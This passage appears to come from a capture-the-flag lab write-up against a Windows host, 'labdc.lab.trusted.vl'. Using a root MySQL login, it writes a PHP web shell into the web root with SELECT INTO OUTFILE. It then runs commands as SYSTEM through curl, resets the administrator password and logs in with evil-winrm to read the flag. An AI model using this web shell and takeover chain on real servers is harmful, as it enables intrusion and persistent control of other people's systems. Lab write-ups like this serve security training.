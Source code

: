 ```php
?>
```

### 3306 - MySQL
We connect to the MySQL database:
```sql
mysql -h labdc.lab.trusted.vl -u root -p
Enter password: SuperSecureMySQLPassw0rd1337.
Welcome to the MariaDB monitor.
[...]

MariaDB [(none)]> 
```
Enumerating our DB privileges shows that we have all privileges
```sql
MariaDB [(none)]> show grants;
+--------------------------------------------------------------------------------------------------------------------------------+
| Grants for root@%                                                                                                              |
+--------------------------------------------------------------------------------------------------------------------------------+
| GRANT ALL PRIVILEGES ON *.* TO `root`@`%` IDENTIFIED BY PASSWORD '*665C8B0E1F0044B6A95EF22E82B93B3350F38A01' WITH GRANT OPTION |
+--------------------------------------------------------------------------------------------------------------------------------+
```
This includes the `FILE` privilege allowing us to write to any path the `mariadb` has access to.
We abuse this to deploy a web shell:
```sql
MariaDB [(none)]> select '<?php echo "command: " . system($_REQUEST["cmd"]); ?>' into outfile "C:\\*XAMPP*\\htdocs\\shell.php";
Query OK, 1 row affected (0.028 sec)
```
#### Persistence
Triggering the webshell reveals that we are running as `SYSTEM`:
```
curl http://labdc.lab.trusted.vl/shell.php?cmd=whoami
nt authority\system
command: nt authority\system
```
For persistence, we change the admin password:
```bash
curl http://labdc.lab.trusted.vl/shell.php?cmd=net+user+administrator+"Password1234$"
The command completed successfully.

command: 
```

### 5895 - Code Execution
```powershell
evil-winrm -i labdc.lab.trusted.vl -u administrator -p Password1234$
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ../Desktop/user.txt
VL{********************************}

```